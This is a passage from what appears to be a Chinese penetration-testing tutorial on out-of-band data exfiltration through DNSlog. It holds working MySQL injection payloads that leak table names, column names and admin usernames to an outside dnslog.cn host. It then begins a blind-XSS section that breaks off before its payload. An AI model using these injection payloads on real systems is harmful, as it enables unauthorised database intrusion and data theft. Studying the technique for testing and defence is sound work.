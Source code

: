 将hex(用户名)去hex解码，得出结果为root@localhost

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-04e32ddebc2069cfcc4f913d34b16d59ce66b529.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-04e32ddebc2069cfcc4f913d34b16d59ce66b529.png)

```mysql
第一个表名payload：and (select load_file(concat('//',(select table_name from information_schema.tables where table_schema=datab ase() limit 0,1),'.wlgbdd.dnslog.cn/a')))

通过修改 limit 0,1 可以获得不同数据表
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-eb1ee1d22940ecc56691786cb4de1803b9cd2047.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-eb1ee1d22940ecc56691786cb4de1803b9cd2047.png)

```mysql
第二个数据列名payload：and (select load_file(concat('//',(select column_name from information_schema.columns where table_name='admin' limit 1,1),'.wlgbdd.dnslog.cn/a')))

通过修改 limit 0,1 可以获得不同数据列
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-82ac2b69f2f7ae26bcc577f4af14d08f9c65e21f.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-82ac2b69f2f7ae26bcc577f4af14d08f9c65e21f.png)

```mysql
表‘admin’列‘username’第一个字段名payload：and (select load_file(concat('//',(select username from maoshe.admin limit 0,1),'.wlgbdd.dnslog.cn/a')))

通过修改 limit 0,1 可以获得不同数据
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-0a45dd9c12a327c9849d7bd6f1126c19ceb08428.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-0a45dd9c12a327c9849d7bd6f1126c19ceb08428.png)

##### 3.1.3.1.注意

在我们查询时，当不确定查询结果是否存在特殊字符时，最好先将其hex编码后在带入查询。

### 3.2.XSS盲打

推荐：XSS绕过可以看看该文章：\[XSS过滤绕过速查表\]([https://blog.csdn.net/weixin\_50464560/article/d](https://blog.csdn.net/weixin_50464560/article/d) etails/114491500)

#### 3.2.1.介绍

简单来说，在xss上的利用是在于我们将xss的攻击代码拼接到dnslog网址的高级域名上，就可以在用户访问的时候，将他的信息带回来

#### 3.2.2.过程

通过盲打，让触发者浏览器访问预设至的链接地址，如果盲打成功，会在平台上收到如下的链接访问记录：

payload:
